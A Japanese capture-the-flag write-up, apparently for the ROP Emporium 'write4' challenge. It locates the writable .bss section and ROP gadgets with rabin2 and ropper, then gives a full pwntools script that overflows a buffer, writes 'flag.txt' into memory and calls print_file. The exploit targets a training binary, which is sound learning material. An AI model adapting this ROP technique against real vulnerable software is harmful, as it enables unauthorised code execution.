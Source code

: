 書き込む場所を探そうとするも共有ライブラリの`libwrite4.so`はPIEが有効になっているので実行ファイルが置かれるアドレスを特定することができない。なので`write4`にある`.bss`セクションを利用する。

```
$rabin2 -S ./write4
[Sections]

nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
(...snip...)
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss
(...snip...)
```

```
$ropper -f ./write4
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
(...snip...)
0x0000000000400628: mov qword ptr [r14], r15; ret; 
(...snip...)
0x0000000000400690: pop r14; pop r15; ret; 
(...snip...)
0x0000000000400693: pop rdi; ret; 
(...snip...)
```

```
#!/usr/bin/env python3
from pwn import *

FILE = './write4'

def exploit():
    # setup
    context.update(arch='amd64', os='linux')
    elf = ELF(FILE)
    conn = process(FILE)

    # making a payload
    flag = b'flag.txt'
    addr_bss = p64(0x00601038)
    
    payload  = b'A' * 0x28
    payload += p64(0x00400690) # pop r14; pop r15; ret;
    payload += addr_bss
    payload += flag
    payload += p64(0x00400628) # mov qword ptr [r14], r15; ret;
    payload += p64(0x00400693) # pop rdi; ret;
    payload += addr_bss
    payload += p64(elf.plt['print_file'])

    # exploit
    conn.recvuntil(b'>')
    conn.sendline(payload)
    conn.interactive()
    return

if __name__ == '__main__':
    exploit()
```
